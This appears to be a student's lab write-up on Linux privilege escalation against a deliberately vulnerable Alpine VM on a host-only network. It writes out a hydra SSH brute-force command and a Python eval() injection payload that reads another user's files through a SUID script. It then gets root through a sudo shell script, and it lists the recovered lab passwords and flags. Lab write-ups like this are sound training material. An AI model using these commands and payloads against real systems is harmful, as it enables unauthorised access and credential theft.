








## Lab5 (actually 4): Privilege escalation on Linux
In this lab, we are to make use of various exploits and misconfigurations on a VM in order to connect to it and gain gradually gain higher priviledges.

## Setup (two virtual machines, both connected to the same network):
- Kali Linux (attacker)
- alpline-lab4-hackable-1 (victim)

My variant is 1, so I download `alpline-lab4-hackable-1.ova` and proceed as in lab 3.

Locate `.ova` file and extract it
```
tar -xvf alpline-lab4-hackable-1.ova
```

Convert to `qcow2` for UTM
```
qemu-img convert -f vmdk -O qcow2 alpline-lab4-hackable-1-disk001.vmdk alpline-lab4-hackable-1.qcow2
```

And setup in UTM as in lab 1.



Also I change two machines to Host-Only Network.

Kali Linux ip -- 192.168.128.2
alpline-lab4-hackable-1 ip -- 192.168.128.3

And ping on attacker machine
```
ping 192.168.128.3
```




And ssh to it.
```
ssh calculator@192.168.128.3
```

We dont know password so we will brute force it, it takes sooome time.
```
sudo apt install hydra
hydra -l calculator -P /home/kali/Desktop/rockyou.txt ssh://192.168.128.3
```



`host: 192.168.128.3   login: calculator   password: morbius
`

And now we can ssh with this password and run `./run_calculator`



Next, when looking for the files in current directory i found: calculator.py (owned by root with SUID bit set)
run_calculator (owned by admin with SUID bit set)
and makefile. 

When examining calculator.py I saw thet it was using `eval()` function to process user input also the script had some validation checks, but they were insufficient.

To  exploit this vulnerability, I injected Python code into the calculator, this allowed me to read the admin user's shell history backup file:



Here we see that admin pass is `08ifioafh98oAJDA`.


Using `eval()` exploit, we can also read the sudo flag
```
./run_calculator
1+(__import__('builtins').open('/tmp/sudo_flag.txt', 'w').write(__import__('builtins').open('/home/admin/sudo_flag.test', 'r').read()))+1
```

This revealed the sudo flag: `AFJS4073RJD30F0WJDD3920JD39D`



Now having the password we can switch to amdin user
```
su admin
```

Examining the admin's command history that we scrapped before we now can create a shell script in the admin's home directory:
```
echo '#!/bin/sh' > /home/admin/shell.sh
echo '/bin/sh' >> /home/admin/shell.sh
chmod +x /home/admin/shell.sh
```

And execute it:
```
sudo /bin/sh /home/admin/shell.sh
```




And yes, we can read flag, it is `XKSF345FSDCXDS002QXZZA0CV2`.
```
find / -name "root_flag.txt" 2>/dev/null
cat /root_flag.txt
```



